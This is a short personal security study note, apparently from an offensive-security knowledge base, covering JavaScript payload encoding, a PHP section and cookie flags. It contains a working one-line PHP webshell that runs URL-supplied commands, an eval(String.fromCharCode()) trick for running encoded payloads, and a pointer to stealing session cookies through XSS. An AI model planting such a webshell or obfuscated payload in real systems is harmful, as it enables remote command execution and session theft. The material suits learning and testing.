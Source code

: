 **Tags:** #type/tech-specific 

---
# Javascript
`String.fromCharCode()`expects decimal charcodes --> when using [[3 Tools/defensive/Cyberchef|Cyberchef]], use base 10

use `eval(String.fromCharCode()) to execute encoded payload
# PHP
simple php webshell: `<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`
	takes shell command in the URL: upload file and then use `[url to file]?cmd=<command>`

# Cookies
^30cd96
## Relevant cookie flags
- `Secure`: Cookie can only be sent over encrypted connections
- `HttpOnly`: Browser denys javascript access to the cookie
	- If not set, the cookie can be read by javascript - e.g. to [[#^c0c94a|steal a session cookie]] using [[2 Tech-Specifics/Web/OWASP TOP 10/XSS Fundamentals|XSS Fundamentals]]
